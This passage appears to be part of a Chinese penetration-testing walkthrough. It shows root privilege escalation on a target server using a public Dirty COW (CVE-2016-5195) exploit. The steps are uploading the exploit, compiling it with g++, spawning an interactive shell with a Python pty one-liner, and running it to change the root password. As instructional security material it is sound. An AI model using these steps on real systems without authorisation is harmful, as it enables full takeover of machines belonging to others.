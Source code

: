 这里我们从GitHub上下载一个exp，上传exp到目标服务器。

```http
https://github.com/gbonacini/CVE-2016-5195
```

![上传新的exp](./脏牛/上传新的exp.png)

编译，执行，成功修改root密码，但是这个密码是临时的。

```bash
g++ -Wall -pedantic -o2 -std=c++11 -pthread -o drow drow.cpp -lutil
# 当然也可以本地编译出exp后在上传
```

![编译exp](./脏牛/编译exp.png)

这个时候，我们需要使用python创建一个交互式的shell，在对这个生成的exp进行在执行，这样才能够进行交互拿到权限。

```bash
python -c 'import pty; pty.spawn("/bin/bash")' # 创建shell
./dcow # 执行exp
```

